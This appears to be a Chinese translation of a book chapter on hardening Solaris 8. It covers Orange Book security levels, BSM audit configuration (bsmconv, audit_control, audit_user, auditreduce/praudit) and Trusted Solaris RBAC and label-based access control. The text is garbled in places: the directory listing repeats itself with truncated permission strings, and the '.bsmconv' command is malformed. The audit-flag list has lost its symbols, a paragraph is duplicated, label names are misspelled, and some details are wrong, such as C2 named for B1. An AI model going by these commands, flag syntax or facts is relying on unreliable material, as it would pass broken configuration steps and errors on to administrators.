A: 虽然将文件或目录的访问模式设置为 `777` 是解决许多基于权限问题的快速方法，但它充其也只是一个糟糕的解决方案，最坏的情况下它是一个巨大的安全漏洞，特别是当这些世界可写文件任何一个也是 SUID 或 SGID 时。

# 使用内置安全工具加固 Solaris • 第二章

Trusted Solaris 8 OE 提供的差异在于默认情况下提供了更稳健的系统安全性。最后，本章讨论了可用的补充安全包，用于增强和提升 Solaris 8 OE 下的安全性。

## 橙色书 (The Orange Book)

如今的安全结构始于 1985 年的一本书出版，它成为各地计算机黑客的必读之：所谓的“橙色书”。该出版物正式名为《可信计算机系统评估标准，DOD 标准 5200.28-STD，1985年12月》（也称为 TCSEC），是彩虹系列（Rainbow Series）材料标准的综述。该名字之所以如此，是因为它的活页使用了鲜艳的颜色编码。这些标准由美国国防部（DOD）和国家安全局（NSA）控制的一个小组开发，统称为美国政府国家安全委员会。它描述了联邦政府为确保存储在计算机中的数据安全而列出的要求，并利用了其在纸质办公的官僚体系中已有的层级结构。该系统通过字母和数字组合对计算机系统进行分类，例如 C2 安全，这已成为事实上的行业标准，尽管 DOD 标准已经发生变化，但它们今天仍在使用。由于该文档在建立现有安全结构方面的全面性，对其概念和逻辑层级的理解仍然被认为是安全开发人员和黑客的基础核心。关于橙色书的参考，极佳来源可以在 www.dynamoo.com 找到。

橙色书标准的分类对于大多数经验丰富的系统管理员来说在某种程度上是熟悉的。当我们安装 Solaris 8 OE 时，默认处于增强的 C1 安全层级，该层级可以通过配置 SunShield 基础安全模块（BSM）升级到 C2 安全级。BSM 允许你在 Solaris 8 上添加审计用户活动和控制对设备访问的标准。这些控制措施，加上对用户账户和密码的要求以及限制访问文件的能力，共同构成了达到 C2 安全级的要求。以下项目是橙色书安全标准的摘要：

- **D, Minimal（最低级）**：这是一个非安全系统。仅在概念层提供参考。这种类型的系统在现实世界中很少存在。


## 第二章 使用内置安全工具加固 Solaris

- **C, Discretionary（自主访问级）**：这一组分类是可信计算基底（TCBs）的最低级。
- **C1, Discretionary Security（自主安全级）**：这是目前几乎所有操作系统最基础的安全。它需要基本标准，如文件级权限和保护、用户名和密码访问、受保护的操作系统以及审计方法论。


## C2, Controlled Access（控制访问级）
C2 是管理员对安全系统拥有全面能力的第一个安全级。这一级需要低到对象级别的访问控制，这意味着任何单个项目都必须获得某种程度的限制。此外，系统访问的授权必须由可信的管理员或管理组指定，并增强审计能力。在此层级，安全设计的灵活性在很大程度上取决于管理员和环境的安全策略。诸如我们以后讨论的基于角色的访问控制（RBAC）等在高级别中是强制性的，应该是需要的。

## B, Mandatory Protection（强制保护级）
在该分类中，TCB 保护标准变为强制性。

## B1, Labeled Security（标记安全级）
正如你可能怀疑的那样，在联邦指令生效的这一级，安全性变得相当复杂。C2 要求中变为强制性的新增内容之一是带标记对象的安全访问。一个易懂的例子是 DOD 自身的标记标准，这是一个很好的说明。DOD 拥有被标记为机密和绝密标准的文档。根据这些标记标记标准，此类分类可以应用于任何计算机对象（无论是文件、进程还是物理设备），使得只有具有（例如）机密权限级的用户才能访问具有该安全分类的对象。相反，具有机密权限的用户将无法访问受绝密级访问控制保护的对象。因此，如果一个拥有绝密权限的人试图在标记为“机密”的打印机上打印绝密文档，他将收到访问错误消息，因为该打印机没有足够的安全权限。C2 的另一个强制性要求是在管理级使用 RBAC，消除了如 `root` 等超级超级账户的存在。其他标准还包括对操作系统环境更好的整体保护、进一步增强审计以及在数据移动时维护标记完整性的能力。

## B2, Structured（结构级）
B2 将安全性带入高水平的审计能力。要求对所有系统对象进行强制访问。客户端和服务器之间需要可信路径通信。管理功能需要拆分为自治单元，以便没有任何实体可以拥有系统的完全控制权，并且需要强制审计和通知协议。

## B3, Security Domains（安全域级）
本质上，这些稀有系统是补全了其余安全漏洞的 B2 系统。它们要求 TCB 无设计缺陷，并进行已要求的系统安全审计和自动安全分析。

## A, Verified（验证级）
这是最高级别的安全分类。

## A1, Verified（经过验证级）
这一级要求通过冗余、独立的第三方测试，证明 TCB 的设计或实现中没有任何缺陷。

橙色书安全标准是计算机安全领域的共同知识点。尽管它们在安全研讨会或黑客圈中通常并不被讨论，但大多数经验丰富的服务器管理员都了解 C2 安全级，因为它是操作系统环境的一个可选安装选项。大多数管理员也知道操作系统环境默认安全级与 C2 安全级之间的差异，他们在某些时候都配置过 C2 安全（尽管许多人并不知道默认被归类为 C1）。通过理解橙色书所建立的安全结构，我们可以对安全基础获得洞察。这种视角不仅让我们理解了今天的技术是如何演变来的，还赋予了我们预测和识别未来威胁的能力。

虽然像拒绝服务攻击以及防止病毒和蠕虫的保护是今天安全关注的重要部分，但橙色书最终解决的根本问题——保护数据——仍然是至关重要的。在这些事情上，知识给了我们成功的策略。在经典电影《帕顿》中，饰演主角的演员乔治·G·斯科特（George G. Scott）在北非对德国军事天才隆梅尔执行宏大任务的场景中有一句精彩的台词。斯科特饰演的帕顿在后方观察他的坦克机动并预判隆梅尔的攻击，针对隆梅尔的猛攻采取了果断且毁灭性的行动并将其化解。帕顿在眼镜后咯笑，低声说道道：“我读懂了，你大混蛋。我读懂了。”同样，作为负责组织数据安全的管理员，我们必须“读懂”想要获取数据的黑客和攻击者。

### 选择 Solaris 8 C2 安全

SunShield 基础安全模块（BSM）是一个在 Solaris 8 默认安装期间提供的脚本驱动包。 Solaris 8 C2 安全将全面的审计能力引入操作系统。在安装了 BSM 的 Solaris 8 下，管理员可以对大多数常见的违规行为建立审计，例如登录失败、远程登录失败、访问违规和文件修改。审计本身就可以对潜在黑客产生威慑。知道自己的尝试将被记录可以震慑一些常见的内部威胁或数据滥用。然而，尽管审计可能无法恐吓某些野心勃勃的威胁，但它仍然是审计并消除入侵的最佳手段。

审计是一种平衡。没有其他优化系统功能对系统资源的负担更大。在繁忙的系统中开启所有事件的审计需要系统管理员不断监控、分析并清理或存档创建的日志。CPU 周期、内存使用和磁盘 I/O 会损害系统，剥夺用户的资源。因此，系统管理员必须选择审计哪些功能以及排除哪些功能，以最大限地利用扩展安全策略的收益，而不至于让系统崩溃。一个良好的起点是每天监控两次日志，每周存档一次。这样，在短时间内，系统管理员就能很容易看到日志的大小并计算出一周所需的磁盘空间。这将为系统管理员提供调整审计量的机会，并与其对系统的影响进行平衡。除非系统受到攻击或发生其他异常，否则这种做法为维护审计日志提供了一种合理的政策，同时对系统的损害降到最低。

使用内置安全工具保护 Solaris • 第 2 章

### 工具与陷阱...

### 威慑

在大多数情况下，审计作为一种有效的、主动的数据保护手段，其威慑作用很大程度上取决于该手段是否被广为人知。许多管理员在这一领域未能实现他们的目标，主要是因为这涉及到了他们无法直接控制的程序。使用审计的理念应该仅作为一种响应性手段，作为最后的手段。换句话说，你不希望员工在安保人员拿着空箱出现（要求他们在被驱逐出楼之前装好自己的物品）时，他们才发现你已经实施了审计。这需要管理员部门与人力资源部门、管理层或任何为员工提供培训或初始入职引导的部门共同努力。员工必须明确、毫无疑问地知道他们在安全方面的边界在哪里。他们必须知道对于何种违规会被开除，对于何种违规会被警告。然后，由管理员来决定员工的行为是超出管理范围，还是违反了安全策略所建立的准则，或者仅仅是偶然的违规。如果管理员对审计有一定的经验，那么确定情况的基础通常并不困难。例如，如果用户在使用用户名或在另一个系统中发生多次登录违规，那这显然是一个意外。但如果使用不同的用户名发生多次登录违规，则需要对来源进行调查。

无论审计已实施这一事实在组织内部传播得有多充分，总会有那些挑战底线的人。那些自以为懂很多的人往往在违反规则时被抓获，而且他们通常会为此付出代价。很少有方法能说服那些认为自己不可或缺、因此无可指责的人，他们实际上既非不可缺也不完美。不幸的是，在系统安全方面，提供这种现实检查是管理员的职责，即使这有时是一项令人不快的任务。

`www.synergy.com`

### 配置审计

当系统配置了 BSM 时，审计就会启用。第一步是将系统降到 init 级别 1。这可以通过 `root` 账户执行以下命令来实现：

```
## /usr/sbin/init 1
```

或者

```
## /etc/telinit 1
```

通过 `/etc/security/bsmconv` 脚本启用 C2 安全，例如：

```
# cd /etc/security
## .bsmconv
```

然后重启系统，审计即可启用。相反，可以通过相同的程序并执行 `/etc/security/bsmunconv` 而不是 `/etc/security/bsmconv` 来禁用 C2 安全。运行 `bsmconv` 脚本的输出如下：

```
root # .bsmconv
此脚本用于启用基本安全模块 (BSM)。
现在继续转换吗？ [y/n] y
bsmconv: INFO: 正在检查启动文件。
bsmconv: INFO: 移开 /etc/rc2.d/S92volmgt。
bsmconv: INFO: 开启审计模块。
bsmconv: INFO: 初始化设备分配文件。
基本安全模块已就绪。
如果有任何错误，请修复它们。
通过编辑位于 /etc/security 中的文件配置 BSM。
现在重启此系统以启用 BSM。
root #
```

以下代码显示了 `/etc/security` 目录的列表。每个文件对于与审计相关的方面具有不同的功能。

```
root # ls -l /etc/security
total 88
drwxr-xr-x  3 root  sys  512 Mar 28 10:06 audit
```


# 使用内置审计工具保护 Solaris • 第 2 章


```
-rw-r-- 1 root sys 728 Jan 5 2000 audit_class
-rw-r-- 1 root sys 149 Jan 5 2000 audit_control
-rw-r---- 1 root root 54 Sep 4 13:49 audit_data
-rw-r-- 1 root sys 10772 Jan 5 2000 audit_event
-rwxr-xr- 1 root sys 84 Sep 4 13:08 audit_startup
-rw-r-- 1 root sys 188 Jan 5 2000 audit_user
-rwxr-xr- 1 root sys 5339 Jan 5 2000 audit_warn
-rw-r-- 1 root sys 1877 Mar 28 10:07 auth_attr
-rwxr-xr- 1 root sys 4587 Mar 25 2000 bsmconv
-rwxr-xr- 1 root sys 3169 Jan 5 2000 bsmconunv
drwxr-xr-x 2 root sys 512 Mar 28 10:06 dev
-rw-r-- 1 root other 388 Sep 4 13:08 device_allocate
-rw-r-- 1 root other 1149 Sep 14 13:08 device_maps
-rw-r-- 1 root sys 1428 Mar 28 10:06 audit
drwxr-xr-x 2 root sys 512 Mar 28 10:06 dev
-rw-r-- 1 root other 388 Sep 4 13:08 device_allocate
-rw-r-- 1 root other 1149 Sep 14 13:08 device_maps
-rw-r-- 1 root sys 1428 Mar 28 10:06 audit
-rw-r-- 1 root sys 728 Jan 5 2000 audit_class
-rw-r-- 1 root sys 149 Jan 5 2000 audit_control
-rw-r---- 1 root root 54 Sep 4 13:49 audit_data
-rw-r-- 1 root sys 10772 Jan 5 2000 audit_event
-rwxr-xr- 1 root sys 84 Sep 4 13:08 audit_startup
-rw-r-- 1 root sys 188 Jan 5 2000 audit_user
-rwxr-xr- 1 root sys 5339 Jan 5 2000 audit_warn
-rw-r-- 1 root sys 1877 Mar 28 10:07 auth_attr
-rwxr-xr- 1 root sys 4587 Mar 25 2000 bsmconv
-rwxr-xr- 1 root sys 3169 Jan 5 2000 bsmconunv
drwxr-xr-x 2 root sys 512 Mar 28 10:06 dev
-rw-r-- 1 root other 388 Sep 4 13:08 device_allocate
-rw-r-- 1 root other 1149 Sep 14 13:08 device_maps
-rw-r-- 1 root sys 1428 Mar 28 10:06 audit
root #
```

对详细描述所有文件功能的概述将是足够的，只需讨论要点。

## 注意

启用审计并不是 `bsmconv` 脚本所做的唯一事情。注意从文中它还禁用了用户分配设备的能力，可以通过手动编辑 `/etc/system` 文件中的 `set_enable = 0` 来关闭。

# 第 2 章 · 使用工具保护 Solaris

`auditconfig` 命令对于维护和配置审计特性非常有用。使用 `auditconfig` 配合 `-setpolicy` 选项可以更改指定的策略 `-chkconf` 选项运行配置一致性检查。`-l` 选项返回策略列表以及每个策略功能的简短描述。最后，`-conf` 选项重新初始化当前使用的映射，以便更改无需重启即可生效。

## 管理审计日志

默认情况下，审计日志将位于 `/var/audit` 目录。审计日志所在的文件系统应该是独立的分区，以避免数据填满文件系统并影响系统。审计守护进程位于独立的分区，启动脚本进入一个循环，定期唤醒并判断分区满的情况是否已解决。如果是，守护进程继续其审计功能。

审计日志文件的控制可以通过编辑 `audit_control` 文件（稍后见图 2.3）来操作。该中有四种类型的行。我们首先讨论的是 `dir:` 行，它是审计日志文件的位置。如果你编辑此行，可以将审计日志放置在危害最小的文件系统中。可以有多个条目以为审计提供故障转移能力，当第一个路径填充时提供持续审计的目录路径。如果 `/var` 文件系统是独立的，默认可能是完全可以的。无论如何，如果你希望位置不同，也可以轻松配置。

`variable` 变量定义了指定为所有用户进行系统范围日志的事件。`naflags:`：不可归属性标志的变量同样旨在作为全包含事件，但由于这些事件在审计标识号分配给进程之前就已经发生，因此无法分配给特定用户。`audit_control` 文件的内容如下：

```
root # cat audit_control
#
# Copyright (c) 1988 by Sun Microsystems, Inc.
#/ident (@#)audit_control.txt 1.3 97/06/20 SMI
#
dir:/var/audit
flags:
minfree:20
aflags:lo
root #
```

审计标识号由两个因素决定。首先，审计预选掩码由 `audit_control` 文件中的 `flags` 和 `naflags:` 变量决定。其次，为每个创建的进程都会生成一个用户 ID，从而在审计追踪中提供其确定的责任归属，无论是否发生了 `su` 或 `setuid` 命令等变化。

## 理解审计分类

`/etc/security` 目录下的几个文件与控制审计功能特别相关。首先讨论的是控制层级中最高的。它是 `audit_class` 文件，包含了与系统审计相关的最广泛的类别。例如，这里显示了文件的文件的章节：

```
0x00000000:no:invalid class
0x00000001:fr:file read
0x00000002:fw:file write
.
.
0x00000400:na:non-attribute
0x00000800:ad:administrative
```


0x00001000:lo:login or logout

0x80000000:ot:other\0xffffffff:all:all classes

你可以看到，类别范围从“no”类到“all”类。所有发生的可审计事件都属于 `audit_class` 文件中的某一类。文件中记录的格式为：

`mask:name:description`

下一个讨论的文件是 `audit_event` 文件。该文件包含了属于某些类别的特定事件记录。例如，取 `audit_event` 文件的以下片段：

```
20:AUE_REBOOT:reboot(2):ad
```

此记录显示使用 `reboot` 命令被记录在 `ad`（或管理）类别下。1 到 2047 的类别预留给内核级事件。2048 到 65,535 的事件预留给用户级事件，其中 32,768 到 65,535 范围专门用于第三方事件。

## 配置审计

我们讨论的最后一个文件是 `audit_user` 文件。该文件提供了一种对系统中的个人进行特定审计的方法。某些编码标准对审计提供了特定的控制。审计标志如下：

- + 审计成功事件
- 审计失败事件
- 同时审计成功和失败事件
- + 关闭成功审计
- - 关闭失败审计
- ^ 关闭成功或失败审计

因此，例如，用户名为 `janeill` 的用户在 `audit_user` 文件中的条目为：

```
janeill:all,^fr
```


此记录记录了 `janeill` 的所有审计事件，成功的读取除。现在考虑，例如以下行：

```
scarter:+fw
```

此记录仅记录该用户的成功文件写入。对 `audit_user` 文件的修改要么扩展要么覆盖在 `audit_control` 文件中建立的系统范围审计参数。同样，这些标志可以为系统定制审计。例如，考虑修改后的 `audit_control` 文件中的以下行：

```
flags:-all,^fr
```

此记录通过 `-all` 标志开启对所有失败事件的审计，但它将忽略带有 `^fr` 标志的任何失败读取。


在审计中可以使用大量的控制。尽管这里提供的说明旨在让系统管理员在审计之前理解概念基础，但仍需要全面的理解。为了将审计配置成一个既满足系统安全要求又易于管理的工具，管理员必须参考文档，如《SunSHIELD 基本安全模块指南》或关于审计标志及其描述的各个页面。

## 提取和分析审计数据

一旦正确配置，Solaris 8 提供了用于维护和审计数据的实用程序。`auditreduce` 命令允许系统管理员合并整个审计追踪中的记录，包括指定的任何客户端。结合 `praudit` 命令（该命令将审计记录格式化为人类可读的格式），你可以生成一份提供分析审计事件全面方法的报告。例如，使用以下命令将整个日志显示到标准输出：

```
## auditreduce | praudit
```

`auditreduce` 命令有几个选项有助于根据特定标准过滤收集的数据。某些选项如指定日期的 `-d` 选项、针对特定用户的 `-u` 选项或选择特定类的 `-c` 选项有助于减少返回的数据量，并使输出更容易管理。另外两个非常有用的控制是 `-b` 和 `-a` 选项，它们分别返回某个日期之前或的数据。日期格式取决于所使用的选项。例如，`-d` 选项使用短格式日期 `yyymmdd`；`-b` 和 `-a` 选项使用长格式 `yyymmdd000000`，涉及年、月、日、时、分、秒。列出自 2000 年 2 月 15 日下午 10:00 以来所有数据的命令示例如下：

```
## auditreduce -a 20000215220000 | praudit
```

以下是上述命令类似的输出，用于某天我通过 Telnet 会话使用错误密码登录系统并成功登录：

```
root # auditreduce -a 200109170000000 | praudit
file,Mon 17 Sep 2001 01:38:26 PM EDT, + 0 msec,
header,81,2,login - telnet,,Mon 17 Sep 2001 01:38:26 PM EDT, +
999999500 msec
subject,root,root,other,root,other,4504,4504,24 6 143.168.13.38
text,invalid password
return,failure: Interrupted system call,-1
header,81,2,login - telnet,,Mon 17 Sep 2001 01:38:26 PM EDT, +
529996000 msec
subject,root,root,other,root,other,4504,4504,24 6 143.168.13.38
text,invalid password
return,failure: Interrupted system call,-1
```

审计项任务并不令人畏畏。然而，它需要坚定的决心来防止其变成问题。例行的分析和维护不仅是保持工作不受控的必要的，也是系统必要警惕的基石。无论是纠正偶然违规还是采取措施阻止入侵者，审计都为我们提供了处理这种情况的必要信息。

# 第 2 章 使用内置安全工具保护 Solaris

在三个独立实体中，它们对系统的权限通过对超级用户（Superuser）传统功能的拆分而减弱，这导致需要更多的人员来进行支持。由于 Trusted Solaris 8 增加了管理标签、账户、角色、权限和审计等功能的复杂性，这些额外支持人员的工作负量也随之增加。此外，管理层为公司制定、规划、论证和记录全面的安全层级结构还会产生外部开支。因此，虽然 Trusted Solaris 8 几乎满足了系统所有的安全需求，但在承诺使用它之前，必须考虑其部署和维护。

## 使用 Trusted Solaris 8 的 B1 级安全

理解 Trusted Solaris 8 中系统管理员功能的角色关系，首先要理解的概念是 RBAC（基于角色的访问控制）。在 RBAC 下，传统的管理功能根据“最小权限”原则被划分为三个角色，该原则规定任何人的权限都不应超过其执行工作所需的权限。大多数系统管理员对使用 root 账户非常熟悉。任何拥有 root 密码的人都可以登录系统并更改密码、添加账户、查看任何文件、更改权限、在受保护的系统空间运行代码——从所有方面和目的来说，他们都是系统的“军事独裁者”。`root` 账户有权告诉人们可以去哪里、可以使用哪些信息、哪些不可用，或者获取任何人的个人信息——而且如果某人变得太麻烦，`root` 还有权任意“杀掉”他们。

随着 RBAC 的实施，`root` 不再存在了。相比之下，RBAC 更倾向于美国政府的优秀之处，提供了一种制衡机制，不允许任何特定分支拥有过大的控制权。唯一的区别是 RBAC 真正有效。`root` 账户被细分为三个角色：

-   **主管理员 (Primary Administrator)**：这大致类比美国政府的行政部门。拥有主管理员角色的账户可以管理整个系统的安全功能，但主要负责提供向他人授予管理角色的能力，特别是授予系统管理员和安全管理员。就像美国政府的总统一样，主管理员很少真正“做点什么”，但他在那里是为了以防出现需要有人负责的情况。


-   **系统管理员 (System administrator)**：这个角色可以被视为我们类比中的立法部门。系统管理员具有执行标准任务的能力，如添加新用户或配置主机、工作站和打印机。系统管理员在修改用户属性方面拥有有限的角色。系统管理员负责系统管理的日常常规工作，就像国会寻找花费税款的方法一样。

-   **安全管理员 (Security administrator)**：这个角色类似于美国政府的司法部门。安全管理员负责实施公司的安全策略。职责包括为系统对象分配标签和权限、允许网络访问，以及为用户修改、定义和实施角色。然而，安全管理员不能授予超出自身角色范围的角色。就像最高法院一样，安全管理员以公平、公正的方式解释并实施政策——无论这给谁带来了什么不便。

将这三个主要的管理角色分配给个人，可以确保没有任何人对系统拥有离散的权力。这些角色中的每一个都具有独立的审计或限制他人的能力。因此，确保了更强的问责制；这些角色只有在用个人账户登录后才能被承担。当创建这些角色时，它们被赋予了自己的属性，以提供精细调优的能力；它们有自己的主目录、组和密码。从之前的账户留下的唯一遗留是保留 UID，以便进行精确的审计跟踪。

除了这三个管理角色外，还可以为操作员和用户定义其他角色，通过应用授权（authorizations）来定义对系统各个方面或网络访问。这些授权有两个方面：出现在图形界面中的（如更改密码），以及在文件内部使用的（如 `solaris.admin.usrmgr.pswd`）。属性的约定是将供应商名称、主题区域、任何子区域和由点界定的函数的顺序反过来。因此，第三方属性可能是类似于 `com.incoming-traveler.device.stargate` 的内容。例如，控制访问 `at(1)`、`crontab(1)` 和 `allocate(1)` 等各种命令的授权都以 `solaris` 单词开头，例如 `solaris.admin.usrmgr.read`。这些系统级授权包含在 `/etc/security/auth_attr` 中，该文件无法修改。

权限配置文件（Rights profiles）被用作授权模板。例如，操作员权限配置文件包含分组为功能单元（如打印机管理或媒体备份）的授权。管理函数的权限配置文件也可以进行定制。

权限（Privileges）可以分配给应用程序，以允许通常被禁止的功能，并可以定制为遵循或忽略运行它们的用户进程的角色和授权。系统的几乎每种限制（如文件系统安全和进程安全）都可以被覆盖。从表面上看，这似乎像是一个漏洞，但应该注意，已有机制来保护这一点。正如经验管理员所知，糟糕的开发会造成破坏。在权限方面请务必格外小心。

## 理解强制控制的概念

强制访问控制（MAC），有时称为标签标记（labeling），是一个比自主访问控制（DAC）提供更全面覆盖的概念。尽管这种机制通过粘位（sticky bits）和访问控制列表（ACLs）得到了增强，但保护任何文件的责任最终留给了用户。

MAC 提供了文件和对象保护的整体概念。标签是一个分类组件，可能包含部门组件。分类在本质上是层次化的，并且可以有任意数量的部门。对数据的访问通过标签之间的支配协议（protocol of dominance）提供或拒绝。作为说明，我们定义了四个标签：PUBLIC（公开）、CLASSIFIED（机密）、TOP SECRET（绝密）和 NEED-TO-KNOW（需知晓）。

### 表 2.1 分布式访问控制

| | 组 (Group) | 全员 (World) |

| :--- | :--- | :--- |

| 所有者 (Owner) | 读 | 写 | 执行 | 读 | 写 | 执行 |


## 使用内置安全工具保护 Solaris


这些标签中的每一个都有部门组件，划分为不同的部门：`Eng`（工程部）、`Fin`（财务部）、`Sec`（安全部）和 `IT`（信息技术）。

如图 2.1 所示，这些分类中的支配关系关系每个标签的分类和部门。要被认为具有支配地位（dominate），给定个人所属的标签必须等于或大于该个人试图访问的数据的标签分类。例如，如果用户登录并在 `(PUBLIC/Eng Sec IT)` 标签下工作，该用户将无法访问高级标签下的任何数据。在光谱的另一端，如果用户处于 `(NEED-TO-KNOW/Eng Sec IT)` 标签下，他或她将知道系统中的数据（受特殊权限保护的系统文件除外）。现在用一个更具体的例子，如果用户在 `(TOP SECRET/Eng IT)` 标签下登录，他或她将与 `(CLASSIFIED/Fin)` 隔离且无法访问该标签。但 `(TOP SECRET/Eng IT)` 用户将能够访问其自身级别规格的任何信息，以及 `(CLASSIFIED/Eng IT)` 和所有的 `PUBLIC` 组件。

## 图 2.1 分类层级示例



图 2.3 稍后显示的为 `(NEED-TO-KNOW/Sec IT)` 的子集主了图 2.2 所示的 `(TOP SECRET/Sec)` 子集。因此，对于一个拥有 `(NEED-TO-KNOW/Sec IT)` 标签许可且在 `(TOP SECRET/Sec)` 环境下工作的人员来说，该人员将清晰地访问 DAC 权限的文件。

### 图 2.2 分类示例：TOP SECRET/Sec



### 图 2.3 分类示例：NEED-TO-KOW/Sec IT



# 使用内置安全工具加固 Solaris • 第 2 章

然而，在图 2.3 所示的分类配置 `(NEED-TO-KOW/Sec IT)` 下工作的人员——尽管仍然拥有图 2.2 所示环境中的 `TOP SECRET/Sec` 文件访问权限——将与图 2.4 所示的带有分类 `(TOP SECRET/Fin)` 标签的文件隔离开，并且无法访问它们。

### 图 2.4 分类示例：TOP SECRET/Fin Sec



## 管理标签

管理员在 `ADMIN_LOW` 标签下工作，允许他们访问特定的系统文件。主管理员拥有 `ADMIN_HIGH` 标签，这允许担任该角色的的人员访问所有系统文件，并拥有分配或修改低级系统管理员和安全管理员的权限。

例如，我们使用我们的虚拟公司 `Incoming Traveler, Inc.`。公司 CEO 用户名 `maybourne` 至少拥有公司所有级别信息的权限。CIO 用户名 `ghamond` 同样拥有高级访问权限，并针对相关技术主题进行了定制。用户 `G.Hammond` 还拥有主管理员角色。用户 `S.Carter` 担任系统管理员角色。最后，用户 `J.O'Neill` 担任安全管理员。

在 `(NEED-TO-KOW/Eng Sec IT)` 分类下，用户名 `maybourne` 运行，但没有 `ADMIN_HIGH` 或 `ADMIN_LOW` 标签，因此他无法访问系统文件，只能访问数据。用户 `G.Hammond` 可能具有类似的分类，但其定义的角色限制了对 `maybourne` 决定并由 `J.O'Neill` 作为安全管理员协助实施的某些数据的访问。`G.Hammond` 还拥有 `ADMIN_HIGH` 角色，使其拥有访问所有系统文件的权限，并在需要时允许他定义或修改系统管理员角色和安全管理员角色。在管理的下一层级中，标签分类发生了分叉。`S.Carter` 作为系统管理员拥有不同的 `ADMIN_LOW` 角色，并在 `NEED-TO-KOW/Eng IT`、`(TOP SECRET/Eng Sec IT)` 和 `(CLASSIFIED/Eng Fin Sec IT)` 标签下运行。这种场景赋予了 `S.Carter` 操控系统功能的能力，但很大程度上限制了她访问与其职责无关的敏感数据的能力。同样，`J'O'Neill` 拥有 `ADMIN_LOW` 角色，赋予他执行安全管理员职责的能力，但将其限制在 `(NEED-TO-KOW/Sec IT)`、`(TOP SECRET/Sec IT)` 和 `(CLASSIFIED/Eng Fin IT)` 等标签下运行。

## 审计与分析受信任 Solaris 8

在 Trusted Solaris 8 中，审计除了随操作系统环境默认安装外，不同之处在于它具有有助于组织和管理审计功能的能力。审计被组织为以下基本类：

- 读打开
- 写打开
- 创建
- 删除
- 属性更改

根据需要创建其他类，并将事件分配或重新排列到不同的类。

`G.Hammond` 可能具有类似的分类，但其定义的角色限制了对某些数据的访问，这些数据由 `maybourne` 决定并由 `J.O'Neill` 作为安全管理员协助实施。`G.Hammond` 还拥有 `ADMIN_HIGH` 角色，使其拥有访问所有系统文件的权限，并在需要时允许他定义或修改系统管理员角色和安全管理员角色。


在两个主机之间，建立了一个受保护的隧道，进一步防止数据被截获和解释。这种额外的安全性是通过将网络数据包封装在进一步加密的 IP 数据包中实现的，该数据包由安全代理生成，并由目标主机上相应的安全代理进行解密。这种技术使网络的内部拓扑保持隐藏状态，因为包含其目标主机信息的网络数据包被封装在另一个不包含目标信息的加密数据包内部。由于隧道是点对点的连接，数据包通过具有单一解密点进行解密并随后路由，从而保护免受分片的影响。

